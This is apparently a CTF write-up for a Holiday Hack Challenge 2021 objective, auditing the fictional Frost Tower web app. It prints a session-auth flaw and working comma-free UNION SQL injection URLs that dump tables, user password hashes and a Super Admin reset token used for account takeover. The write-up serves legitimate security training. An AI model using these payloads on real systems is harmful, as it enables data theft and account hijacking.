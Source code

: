 # Objective 12: Frost Tower Website Checkup
**Location: Studio, Frost Tower, 16<sup>th</sup> Floor, https://staging.jackfrosttower.com/**

**Troll: Ingreta Tude**

**Hints provided by Ribb Bonbowford after completion of [Elf Code Python](https://github.com/joergschwarzwaelder/hhc2021/blob/master/Additional/Elf%20Code%20Python.md)**

This objective is to perform a security assessment of the Frost Tower website with the [source code](https://download.holidayhackchallenge.com/2021/frosttower-web.zip) being provided.
It has to be found, which job position Jack Frost plans to offer Santa on his todo list.

### Auth flaw

The application tracks the user's session in `session` (login name, user's role etc.).
It was found that a valid session is also set, if you complete the [contact form](https://staging.jackfrosttower.com/contact) whilst the email address is already captured in the database. So you could just register twice to get a valid user session for an unprivileged user.
```
app.post('/postcontact', function(req, res, next){
[...]
        var rowlength = rows.length;
        if (rowlength >= "1"){
            session = req.session;
            session.uniqueID = email;
            req.flash('info', 'Email Already Exists');
            res.redirect("/contact");
```            
### SQLi flaw

Using this unprivileged user session, an SQLi flaw in the function to get user details could be used to retrieve more information from the database.
```
app.get('/detail/:id', function(req, res, next) {
    session = req.session;
    var reqparam = req.params['id'];
    var query = "SELECT * FROM uniquecontact WHERE id=";
    if (session.uniqueID){
        try {
            if (reqparam.indexOf(',') > 0){
                var ids = reqparam.split(',');
                reqparam = "0";
                for (var i=0; i<ids.length; i++){
                    query += tempCont.escape(m.raw(ids[i]));
                    query += " OR id="
                }
                query += "?";
            }else{
                query = "SELECT * FROM uniquecontact WHERE id=?"
            }
        } catch (error) {
            console.log(error);
            return res.sendStatus(500);
        }

        tempCont.query(query, reqparam, function(error, rows, fields){
```
As only caveat it has to be ensured, that the **comma character has to be avoided** in the SQL statement as the application splits up the query at the commas.
Furthermore it is important to note that "union" requires that the **number of columns on both sides match**.
Due to the fact, that the `union` database has 7 columns, it has to be ensured, that also on the right hand side of the `union` 7 columns have to be delivered.

This URL is the base for all following SQLi attacks:
```
https://staging.jackfrosttower.com/detail/0,0 union
```
During research a [very good explanation](https://secgroup.github.io/2017/01/03/33c3ctf-writeup-shia/) about how to avoid commas in SQL statements and how to get to the right amount of columns was found and the attacks outlined below follow exactly this approach.


### Getting access to Jack Frosts todo list

We can obtain a list of all interesting tables in the MySQL database using this SQL statement:
```
select table_name from information_schema.tables;
```
This can be rewritten for our SQLi flaw:
```
https://staging.jackfrosttower.com/detail/0,0 union select * from (select 1)a1 join (select 2)a2 join (select table_name from information_schema.tables)d join (select 3)j join (select 4)k join (select 5)l join (select 6)m;--
```
This reveals, that in addition to the tables `emails` and `uniquecontact`, which are known as they are used in the application and in the provided schema of encontact `encontact_db.sql`, there is an additional table `todo`, which seems to be the todo list we need access to.

Using the SQL statement
```
select column_name from information_schema.columns where table_name="todo";
```
the list of columns in the table `todo` can be obtained.
This can be rewritten for the SQLi as follows:
```
https://staging.jackfrosttower.com/detail/0,0 union select * from (select 1)a1 join (select 2)a2 join (select column_name from information_schema.columns where table_name="todo")d join (select 3)j join (select 4)k join (select 5)l join (select 6)m;--
```
we can see, that this table consists out of 3 columns: `id`, `note`, `completed`.
The `note` column can then be extracted using
```
select note from todo;
```
Rewritten for the SQLi:
```
https://staging.jackfrosttower.com/detail/0,0 union select * from (select 1)a1 join (select 2)a2 join (select note from todo)d join (select 3)j join (select 4)k join (select 5)l join (select 6)m;--
```
This brings up Jack Frosts todo list:

 - Buy up land all around Santa's Castle
 - Build bigger and more majestic tower next to Santa's
 - Erode Santa's influence at the North Pole via FrostFest, the greatest Con in history
- Dishearten Santa's elves and encourage defection to our cause
- Steal Santa's sleigh technology and  build a competing and way better Frosty present delivery vehicle
- Undermine Santa's ability to deliver presents on 12/24 through elf staff shortages, technology glitches, and assorted mayhem 
- Force Santa to cancel Christmas
- SAVE THE DAY by delivering Frosty presents using merch from the Frost Tower Gift Shop to children world-wide... so the whole world sees that Frost saved the Holiday Season!!!! Bwahahahahaha!
- With Santa defeated, offer the old man a job as a **clerk** in the Frost Tower Gift Shop so we can keep an eye on him

---
### Bonus: Getting Super Admin privileges in the application


Using the SQLi flaw, a full list of registered users and admins (along with password hashes and privilege levels) can be retrieved using this link:
```
https://staging.jackfrosttower.com/detail/0,0 union select * from users--
```
This contains for example:
 - Super Admin
 - root@localhost
 - $2b$10$JnLy8pq1fC/KrS.bn1NAOx13GzDavIOZJkuayDC7JSCNKvQUha3i
 - 1
 - November 23rd, 2021 11:00:00
 - December 18th, 2021 7:05:17

---
- Admin
- admin@localhost
- $2b$10$FTkzq07Az57M.Q8jw7ehB..h5Vdc3Vw04zQzJIt294bgwg7.aV1GC
- 2
- December 3rd, 2021 11:00:00

This shows, that we have a "Super Admin" with the email address root@localhost defined in the system.

Next the "[forgot password](https://staging.jackfrosttower.com/forgotpass)" function of the application can be used to increase the privileges.
When resetting the password for a user, a random token is created and stored in the user database in the column `token`. If we are able to get hold of this token, we can change the password of the user and have full control.

The token for the Super Admin "root@localhost" can be retrieved using this URL:
```
https://staging.jackfrosttower.com/detail/0,0 union select * from (select 1)a join (select 2)b join (select 3)c join (select token from users where email="root@localhost")d join (select 4)e join (select 5)f join (select 6)g;--
```

Using the URL https://staging.jackfrosttower.com/forgotpass/token/{retrieved_token} it is possible to set a new password for the "Super Admin" user.
Being logged on as this user, a new personalized user with "Super Admin" privileges can be created.

**Achievement: Frost Tower Website Checkup**




